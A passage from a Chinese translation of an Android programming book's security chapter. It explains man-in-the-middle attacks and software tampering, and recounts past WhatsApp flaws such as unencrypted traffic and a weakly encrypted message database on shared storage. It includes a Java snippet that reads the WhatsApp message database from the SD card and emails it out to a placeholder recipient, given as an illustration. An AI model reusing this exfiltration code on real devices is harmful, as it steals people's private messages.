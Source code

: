 +   **中间人（MitM）攻击**：在这种攻击中，第三方将计算机插入合法目的地和源头之间，并欺诈性地将自己设置为合法目的地。然后用户将所有信息发送给这个拦截器，拦截器通常又将信息重新发送到合法目的地，因此用户没有意识到信息已被截获。![Security](https://github.com/OpenDocCN/freelearn-android-pt2-zh/raw/master/docs/andr-hiperf-prog/img/4666_07_01.jpg)

    MitM 攻击的拓扑结构

+   **篡改**：篡改是指恶意修改软件，通常目的是假装它是合法版本，并在后台执行一些不希望的操作（如监控或窃取信息）。

作为操作系统，Android 并非没有这些风险。实际上，考虑到其广泛的应用范围（全球有超过十亿个 Android 设备），它比其他平台面临更多的威胁。已经有一些知名（并被广泛使用）的应用程序因设计标志通常被用作软件设计不当可能发生的情况的例子。

# WhatsApp —— “不可为”的永恒展示

WhatsApp 可以展示应用程序可能呈现的一些标志。2011 年报告了一个漏洞，指出 WhatsApp 内的通信并未加密。连接到同一 Wi-Fi 网络的设备可以访问其他设备之间的通信。几乎花了一年的时间来修复这个漏洞，而这个漏洞并不是特别复杂难以解决。

那一年晚些时候，也报告了一个问题，允许攻击者冒充用户并控制他的账户。2012 年 1 月，一名黑客发布了一个网站，如果知道电话号码，就可以更改安装了 WhatsApp 的任何设备的状态。WhatsApp 为修复这个漏洞所采取的唯一措施是封锁了网站的 IP 地址（正如任何读者可以想象的，这远非一个有效的措施）。

WhatsApp 多年来存在的一个大问题是，消息存储在本地数据库中。这是在外部存储中完成的，任何其他应用程序（以及任何恶意黑客）都可以访问该文件。这个想法可能有它的理由（例如，保持备份），但实施结果是一场灾难。数据库总是使用相同的加密密钥进行加密，因此任何可以访问该文件的人都可以轻松地解密它。以下是一个获取数据库文件并通过电子邮件发送的示例操作：

```kt
  public void onClick(View v) {
      try {   
          AsyncTask<Void, Void, Void> m = new AsyncTask<Void, Void, Void>() {

              @Override
              protected Void doInBackground(Void... arg0) {
                  GMailSender sender = new GMailSender(EMAIL_STRING, PASSWORD_STRING);
                  try {
                     File f = new File(filePathString); 
                 if (f.exists() && !f.isDirectory()) {
                   sender.addAttachment("/storage/sdcard0/ WhatsApp/ Databases/msgstore.db.crypt", SUBJECT_STRING);
                            sender.sendMail(SUBJECT_STRING,
                                    BODY_STRING,
                                    EMAIL_STRING,
                                    RECIPIENT_STRING);

                 }    
                  } catch (Exception e) {
                      e.printStackTrace();
                  }   
                  return null;
              }
          };
          m.execute((Void)null);
      } catch (Exception e) {
          Log.e("SendMail", e.getMessage());
      } 
  }
});
```

